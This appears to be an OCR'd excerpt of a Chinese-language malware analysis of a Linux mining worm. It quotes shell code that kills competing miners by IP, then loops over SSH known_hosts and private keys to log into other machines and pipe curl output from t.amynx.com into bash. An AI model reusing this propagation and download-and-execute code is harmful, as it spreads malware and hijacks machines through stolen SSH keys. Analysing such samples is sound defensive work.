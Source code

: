 ```
    rm -f /tmp/irq

# Killing and blocking miners by network related IOC
network(){
    # Kill by known ports/IPs
    netstat -anp | grep 69.28.55.86:443 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
    netstat -anp | grep 185.71.65.238 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9

files
processes
network
echo "DONE"

```

接下来是下载恶意二进制程序以及 ssh 横向传播

```
代码片段1
if [ -f /root/.ssh/known_hosts ] && [ -f /root/.ssh/id_rsa.pub ]; then
  for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h 'export src=sshcopy;(curl -fsSL http://t.amynx.com/ ......
fi

代码片段2
for file in /home/*
do
    if test -d $file; then
        if [ -f $file/.ssh/known_hosts ] && [ -f $file/.ssh/id_rsa.pub ]; then
            for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h 'export src=sshcopy;(curl -fsSL http://t.amynx.com/ ...... |bash >/dev/null 2>&1 &' & done
        fi
    fi
done

代码片段3
  for user in $userlist; do
    for host in $hostlist; do
      for key in $keylist; do
        for sshp in $sshports; do
          i=$((i+1))
          if [ "${i}" -eq "20" ]; then
            sleep 20
            ps wx | grep "ssh -o" | awk '{print $1}' | xargs kill -9 &>/dev/null &
            i=0
          fi
          #Wait 20 seconds after every 20 attempts and clean up hanging processes

          chmod +r $key
          chmod 400 $key
          echo "$user@$host $key $sshp"
          ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host -p$sshp "export src=sshcopy;(curl -fsSL http://t.amynx.com/ ...... |bash >/dev/null 2>&1 &"
        done
      done
    done
  done

```
